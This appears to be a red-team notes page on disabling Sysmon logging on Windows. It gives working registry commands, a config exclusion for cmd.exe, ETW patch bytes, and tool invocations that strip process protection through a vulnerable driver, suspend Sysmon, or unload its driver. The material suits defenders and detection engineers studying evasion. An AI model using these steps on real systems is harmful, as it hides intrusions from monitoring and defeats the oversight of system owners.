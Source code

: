 - [System Monitor (Sysmon)](#system-monitor-sysmon)
- [Sysmon architecture](#sysmon-architecture)
- [Attacking Sysmon](#attacking-sysmon)
	- [Removing kernel callbacks](#removing-kernel-callbacks)
	- [Altitude takeover](#altitude-takeover)
	- [Boot Settings](#boot-settings)
	- [Overwrite config file](#overwrite-config-file)
	- [ETW Patching](#etw-patching)
	- [Suspending and resuming the process](#suspending-and-resuming-the-process)
	- [Unloading sysmon driver](#unloading-sysmon-driver)

## System Monitor (Sysmon)
### Sysmon architecture
- https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon
- Sysmon consists of a client program `Sysmon.exe` and a driver `SysmonDrv.sys`.
	- The driver registers kernel callbacks for Image, Thread, Process, Registry and FileSystem operations.
	- The client collects network (DNS) telemetry from the ETW session and from the driver and writes it to a ETW session
	- Uses a `XML` file for configuration, which telemetry sources is enabled and what to include and exclude

### Attacking Sysmon
### Removing kernel callbacks
- [Driver Attacks – Vulnerable drivers](Driver-Attacks.md#vulnerable-drivers)

### Altitude takeover
- [Manual Altitude takeover](Endpoint Detection Response (EDR).md#manual-altitude-takeover)

### Boot Settings
### Example Boot settings
- What does it do
	- [RegSetValueExA](https://learn.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regsetvalueexa) - Changes the `start` value of the `SysmonDrv` to `3` (demand start) or revert it back to `0` (boot start)
- Requirements;
	- Local administrator / system privileges
	- Restart of the Windows machine
- Link to code (Not published yet)

```
.\BootSettings.exe -e
```

### Manually change boot settings
- Requirements;
	- Local administrator / system privileges
	- Restart of the Windows machine

#### Find driver name
```
reg query "HKLM\SYSTEM\CurrentControlSet\Services\Sysmon\Parameters" /v DriverName
```

#### Change the start value
```
reg add "HKLM\SYSTEM\CurrentControlSet\Services\SysmonDrv" /v Start /t REG_DWORD /d 3 /f
```

#### Reboot the system
```
shutdown /r /t 0
```

### Overwrite config file

### Example overwriting config file
- What does it do
	- Reads the registry value and overwrites the original configuration file with new content
- Requirements;
	- Local administrator / system privileges
	- Restart of the sysmon process
- See manual steps to copy and add exclusion to config file

```
.\OverwriteConfigFile --replace <NEW CONFIG FILE PATH> --config <SYSMON CONFIG FILE PATH>
```

### Manually overwriting config file
- Requirements;
	- Local administrator / system privileges
	- Restart of the sysmon process

#### Find driver name
```
reg query "HKLM\SYSTEM\CurrentControlSet\Services\Sysmon\Parameters" /v DriverName
```

#### Find current config file
```
reg query "HKLM\SYSTEM\CurrentControlSet\Services\SysmonDrv\Parameters" /v ConfigFile
```

#### Copy the config file
```
copy "C:\Program Files\Sysmon\sysmonconfig.xml" "C:\Program Files\Sysmon\sysmonconfig_new.xml"
```

#### Add PE exclusion to the config file
- Adds an exclusion for a specific PE file

```
<!-- Image Exclusion -->
<Image condition="is">C:\Windows\System32\cmd.exe</Image>

# Add it within
    <RuleGroup groupRelation="or">
      <ProcessCreate onmatch="exclude">
```

#### Change config file registry value
- Changes the config file path

```
reg add "HKLM\SYSTEM\CurrentControlSet\Services\SysmonDrv\Parameters" /v ConfigFile /t REG_SZ /d "C:\Program Files\Sysmon\sysmonconfig_new.xml" /f
```

#### Update sysmon with the new configuration
- Loads the new configuration file

```
sysmon -c "C:\Program Files\Sysmon\sysmonconfig_new.xml"
```

### ETW Patching
- What does it do
	- Apply ETW patch to the sysmon process, by writing the `0x48 0x33 0xc0 0xc3` patch to `EtwEventWrite` function inside the sysmon process
- `Sysmon.exe` is a protected process and it requires removing before being able to patch ETW.
- Requirements;
	- Loading a vulnerable driver to remove PPL protections
	- Local administrator / system privileges

#### Remove the protection of sysmon process
- https://github.com/0xJs/BYOVD_read_write_primitive

```
.\ProtectionChanger.exe -p <SYSMON PID> -v 0x00
```

#### Patch EtwEventWrite
- Link to code (Not published yet)

```
.\PatchETWRemoteProcess.exe -t sysmon64.exe
```

### Suspending and resuming the process
- What does it do
	- Suspend the `Sysmon.exe` or `sysmon64.exe` process, which stops generating events from information from the driver
- `Sysmon.exe` is a protected process and it requires removing before being able to suspend the process
- Requirements;
	- Loading a vulnerable driver to remove PPL protections
	- Local administrator / system privileges

#### Remove the protection of sysmon process
- https://github.com/0xJs/BYOVD_read_write_primitive

```
.\ProtectionChanger.exe -p <SYSMON PID> -v 0x00
```

#### Suspend the process
- What does it do
	- Suspends the target process
- Logs will be send after resuming the process again

```
.\SuspendRemoteProcess.exe -t sysmon64.exe -a suspend
```

### Unloading sysmon driver
- What does it do
	- Unloads the driver using the [FilterUnload](https://learn.microsoft.com/en-us/windows/win32/api/fltuser/nf-fltuser-filterunload) win32 API.
- Requirements;
	- Local administrator / system privileges
- Link to code (Not published yet)

```
.\FilterUnload -d
```